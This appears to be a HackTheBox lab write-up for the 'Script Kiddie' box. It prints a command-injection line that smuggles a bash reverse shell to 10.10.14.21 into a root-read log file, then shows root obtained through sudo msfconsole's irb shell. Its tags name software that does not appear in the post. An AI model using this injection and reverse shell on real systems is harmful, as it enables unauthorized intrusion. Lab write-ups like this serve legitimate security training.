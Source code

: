 ```yaml
---
title: (HTB) - Script Kiddie
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-09-22 11:33:00 +0200
categories: [HackTheBox, Other]
tags: [NetBSD,Bozohttpd,Lua,Default Credentials,Code Injection,NGINX,Password Cracking,Password Reuse,Weak Credentials]
math: true
mermaid: true
image:
  src: /assets/images/1df44abad6a5755b7f9edd7675bbca3622df01287e2eeec05216dca208d4e0bc.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Script Kiddie is an easy box where we first have to exploit a vulnerable MSFvenom template** 


# ENUMERATION

## NMAP

# EXPLOITATION

![picture 21](/assets/images/57b2b3ec41b8f3813882210be6efb5d17a3eac1a39c0e05de1a01439633a8693.png)

Using metasploit

![picture 22](/assets/images/8ede237222b9c4ccf385ec9520c8cd4e13ff97bec7a4315f37995f9f585e25c2.png)

```
kid@scriptkiddie:~/html$ id
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

id_rsa private key can be downloaded for ssh

# PRIVILEGE ESCALATION

```
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh
cat scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

```
2021/02/07 09:26:01 CMD: UID=0    PID=1257893 | /usr/sbin/CRON -f 
2021/02/07 09:26:01 CMD: UID=0    PID=1257894 | /bin/sh -c find /home/kid/html/static/payloads/ -type f -mmin +5 -delete 
2021/02/07 09:28:01 CMD: UID=0    PID=1257896 | /usr/sbin/CRON -f 
```

```
kid@scriptkiddie:~/logs$ echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/9999 0>&1' #" >> hackers
```

![picture 23](/assets/images/ec1df5b4861ac839fa1bb9ef1da7c5e237ca15642ad57650b3cdcd4e36f9e792.png)

get .ssh/id_rsa and connect with ssh

```
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

```
msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> exec '/bin/bash'
root@scriptkiddie:/home/pwn# id
uid=0(root) gid=0(root) groups=0(root)
```

